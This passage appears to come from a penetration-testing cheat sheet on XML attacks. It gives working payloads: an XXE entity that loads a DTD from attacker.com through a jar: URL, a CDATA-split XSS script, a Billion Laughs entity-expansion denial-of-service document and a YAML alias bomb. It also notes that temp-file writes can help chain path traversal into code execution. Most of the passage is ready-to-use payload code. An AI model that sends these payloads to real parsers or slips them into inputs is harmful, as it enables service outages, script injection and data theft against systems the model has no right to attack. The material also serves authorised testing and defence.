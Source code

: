 ```xml
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "jar:http://attacker.com:8080/evil.zip!/evil.dtd">]>
<foo>&xxe;</foo>
```

> [!CAUTION]
> Writing files in a temporary directory can help to **escalate another vulnerability that involves a path traversal** (such as local file include, template injection, XSLT RCE, deserialization, etc).

### XSS

```xml
<![CDATA[<]]>script<![CDATA[>]]>alert(1)<![CDATA[<]]>/script<![CDATA[>]]>
```

### DoS

#### Billion Laugh Attack

```xml
<!DOCTYPE data [
<!ENTITY a0 "dos" >
<!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
<!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
<!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
<!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
]>
<data>&a4;</data>
```

#### Yaml Attack

```xml
a: &a ["lol","lol","lol","lol","lol","lol","lol","lol","lol"]
b: &b [*a,*a,*a,*a,*a,*a,*a,*a,*a]
c: &c [*b,*b,*b,*b,*b,*b,*b,*b,*b]
d: &d [*c,*c,*c,*c,*c,*c,*c,*c,*c]
e: &e [*d,*d,*d,*d,*d,*d,*d,*d,*d]
f: &f [*e,*e,*e,*e,*e,*e,*e,*e,*e]
g: &g [*f,*f,*f,*f,*f,*f,*f,*f,*f]
h: &h [*g,*g,*g,*g,*g,*g,*g,*g,*g]
i: &i [*h,*h,*h,*h,*h,*h,*h,*h,*h]
```

#### Quadratic Blowup Attack

![](<../images/image (527).png>)
